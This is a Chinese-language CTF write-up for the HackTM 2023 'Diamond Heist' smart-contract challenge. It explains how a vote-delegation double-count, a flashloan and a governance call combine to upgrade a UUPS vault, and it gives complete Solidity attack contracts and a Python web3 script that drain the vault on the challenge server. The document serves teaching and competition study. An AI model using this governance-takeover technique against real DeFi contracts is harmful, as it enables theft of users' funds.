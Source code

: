 ```yaml
---
title: Blockchain - Diamond Heist
description: 2023 | HackTM CTF | smart contract
tags:
    - smart contract
    - solidity
    - flashloan
---
```


## 题目

Salty Pretzel Swap DAO has recently come out with their new flashloan vaults. They have deposited all of their 100 Diamonds in one of their vaults.

Your mission, should you choose to accept it, is to break the vault and steal all of the diamonds. This would be one of the greatest heists of all time.

This text will self-destruct in ten seconds.

Good luck.

> nc 34.141.16.87 30200

[:material-download: `diamond_heist_contracts.zip`](static/diamond_heist_contracts.zip)

## 解题思路

- 目标是将 100 Diamonds 转移到 `Setup` 实例

    ```js
    function isSolved() external view returns (bool) {
        return diamond.balanceOf(address(this)) == DIAMONDS;
    }
    ```

- `Setup` 部署后，`Vault` 的代理合约持有 100 Diamonds，显然需要通过更新合约来进行 Diamond 的转移操作。不过，`Vault` 采用 UUPS 代理模式，虽然没有初始化其逻辑合约，但由于存在 `onlyProxy` 修饰符，无法通过逻辑合约升级

    ```js
    constructor () {
        vaultFactory = new VaultFactory();
        vault = vaultFactory.createVault(keccak256("The tea in Nepal is very hot."));
        diamond = new Diamond(DIAMONDS); // uint constant public DIAMONDS = 100;
        saltyPretzel = new SaltyPretzel();
        vault.initialize(address(diamond), address(saltyPretzel));
        diamond.transfer(address(vault), DIAMONDS);
    }
    ```

- 当 `Vault` 代理合约的调用者为 `owner` 或代理合约自身且代理合约持有 Diamond 的数量为 $0$ 时，允许更新合约逻辑

    ```js
    function _authorizeUpgrade(address) internal override view {
        require(msg.sender == owner() || msg.sender == address(this));
        require(IERC20(diamond).balanceOf(address(this)) == 0);
    }
    ```

- `Vault` 代理合约的所有者为 `Setup`，而 `Setup` 中没有 `transferOwnership` 相关的逻辑，无法以 `owner` 身份更新。注意到当调用者的票数不小于 `AUTHORITY_THRESHOLD` 时，可以以 `Vault` 代理合约的身份调用 `Vault` 中的任意函数

    ```js
    uint constant public AUTHORITY_THRESHOLD = 10_000 ether;
    function governanceCall(bytes calldata data) external {
        require(msg.sender == owner() || saltyPretzel.getCurrentVotes(msg.sender) >= AUTHORITY_THRESHOLD);
        (bool success,) = address(this).call(data);
        require(success);
    }
    ```

- 至于使 `IERC20(diamond).balanceOf(address(this)) == 0` 可以通过 `flashloan` 解决

    ```js
    function flashloan(address token, uint amount, address receiver) external {
        uint balanceBefore = IERC20(token).balanceOf(address(this)); // 只能借用代理合约持有的 token
        IERC20(token).transfer(receiver, amount);
        IERC3156FlashBorrower(receiver).onFlashLoan(msg.sender, token, amount, 0, "");
        uint balanceAfter = IERC20(token).balanceOf(address(this));
        require(balanceBefore == balanceAfter);
    }
    ```

- 那么，接下来考虑如何获取足够的票数。初始可通过 `Setup.claim()` 获得 `SALTY_PRETZELS(100 ether)`，`mint` 将首先增加 `_to` 持有的代币数量，随后增加 `_delegates[_to]` 的票数。由于 `srcRep` 为 `address(0)`，不对其执行减少票数的操作，因而总票数是增加的

    ```js
    function mint(address _to, uint256 _amount) public onlyOwner {
        _mint(_to, _amount);
        _moveDelegates(address(0), _delegates[_to], _amount);
    }

    function _moveDelegates(address srcRep, address dstRep, uint256 amount) internal {
        if (srcRep != dstRep && amount > 0) {
            if (srcRep != address(0)) {
                uint32 srcRepNum = numCheckpoints[srcRep];
                uint256 srcRepOld = srcRepNum > 0 ? checkpoints[srcRep][srcRepNum - 1].votes : 0;
                uint256 srcRepNew = srcRepOld - amount;
                _writeCheckpoint(srcRep, srcRepNum, srcRepOld, srcRepNew);
            }

            if (dstRep != address(0)) {
                uint32 dstRepNum = numCheckpoints[dstRep];
                uint256 dstRepOld = dstRepNum > 0 ? checkpoints[dstRep][dstRepNum - 1].votes : 0;
                uint256 dstRepNew = dstRepOld + amount;
                _writeCheckpoint(dstRep, dstRepNum, dstRepOld, dstRepNew);
            }
        }
    }
    ```

- 代币 `SP` 的数量自 `Setup.claim()` 后不再变化，`_moveDelegates` 从 `address(0)` 到任意不为 0 的地址似乎是增加总票数的唯一方法。当 `delegator` 初次声明 `delegatee` 时，`currentDelegate` 为 `address(0)`，将为 `delegatee` 增加 `balanceOf(delegator)` 票。那么，可以将持有的代币转移给新的 `delegator` 再由其调用 `delegate()` 来增加 `delegatee` 的票数

    ```js
    function delegate(address delegatee) external {
        return _delegate(msg.sender, delegatee);
    }

    function _delegate(address delegator, address delegatee) internal
    {
        address currentDelegate = _delegates[delegator];
        uint256 delegatorBalance = balanceOf(delegator);
        _delegates[delegator] = delegatee;

        emit DelegateChanged(delegator, currentDelegate, delegatee);

        _moveDelegates(currentDelegate, delegatee, delegatorBalance);
    }
    ```

### Exploit

```js
contract HackerVault is Vault { // new implementation should also be UUPS
    function exploit(address token, address setup) external {
        IERC20(token).transfer(address(setup), 100);
    }
}

contract Helper {
    function help(address instance) external {
        SaltyPretzel(instance).delegate(msg.sender);
        SaltyPretzel(instance).transfer(msg.sender, 100 ether);
    }
}

contract Hack is IERC3156FlashBorrower {
    Setup setup;
    SaltyPretzel saltyPretzel;
    Vault vault;

    constructor(address instance) {
        setup = Setup(instance);
        saltyPretzel = SaltyPretzel(setup.saltyPretzel());
        vault = Vault(setup.vault());
    }

    function exploit() external {
        saltyPretzel.delegate(address(this));
        setup.claim();
        for (uint i = 1; i < 100; i ++) {
            Helper helper = new Helper();
            saltyPretzel.transfer(address(helper), 100 ether);
            helper.help(address(saltyPretzel));
        }
        vault.flashloan(address(setup.diamond()), 100, address(this));
    }

    function onFlashLoan(address, address token, uint256 amount, uint256, bytes calldata) external override returns (bytes32) {
        HackerVault hackerVault = new HackerVault();
        vault.governanceCall(abi.encodeWithSignature(
            "upgradeTo(address)",
            address(hackerVault)
        ));
        IERC20(token).transfer(address(vault), amount);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
```

```py
from web3 import Web3
import pwn

hack_abi = open('hack_abi.json').read()
hack_bytecode = open('hack_bytecode.txt', 'r').read()

hackervault_abi = open('hackervault_abi.json').read()
hackervault_bytecode = open('hackervault_bytecode.txt').read()

setup_abi = open('setup_abi.json').read()

def transact(func):
    tx = account.sign_transaction(eval(func).buildTransaction({
        'chainId': w3.eth.chain_id,
        'nonce': w3.eth.get_transaction_count(account.address),
        'gas': eval(func).estimate_gas(),
        'gasPrice': w3.eth.gas_price,
    })).rawTransaction
    tx_hash = w3.eth.send_raw_transaction(tx).hex()
    return w3.eth.wait_for_transaction_receipt(tx_hash)

conn = pwn.remote('34.141.16.87', 30200)

conn.sendlineafter(b'action?', b'1')
ticket = conn.recvline_contains(b'ticket').decode().split(' ')[-1].strip()
w3 = Web3(Web3.HTTPProvider(conn.recvline_contains(b'rpc').decode().split(' ')[-1]))
account = w3.eth.account.from_key(conn.recvline_contains(b'key').decode().split(' ')[-1])

setup_addr = conn.recvline_contains(b'contract').decode().split(' ')[-1].strip()
setup_contract = w3.eth.contract(address=setup_addr, abi=setup_abi)

hack_contract = w3.eth.contract(abi=hack_abi, bytecode=hack_bytecode)
hack_addr = transact('hack_contract.constructor(setup_addr)').contractAddress
hack_contract = w3.eth.contract(address=hack_addr, abi=hack_abi)
print(hack_addr)

transact('hack_contract.functions.exploit()')

vault_addr = setup_contract.functions.vault().call()
diamond_addr = setup_contract.functions.diamond().call()
hackervault_contract = w3.eth.contract(address=vault_addr, abi=hackervault_abi)
transact('hackervault_contract.functions.exploit(diamond_addr, setup_addr)')

if setup_contract.functions.isSolved().call():
	conn = pwn.remote('34.141.16.87', 30200)
	conn.sendlineafter(b'action?', b'3')
	conn.sendlineafter(b'ticket please:', ticket)
	conn.interactive()
```

### Flag

> HackTM{m1ss10n_n0t_th4t_1mmut4ble_58fb67c04fd7fedc}

## 参考资料

- [UUPSUpgradeable](https://docs.openzeppelin.com/contracts/4.x/api/proxy#UUPSUpgradeable)
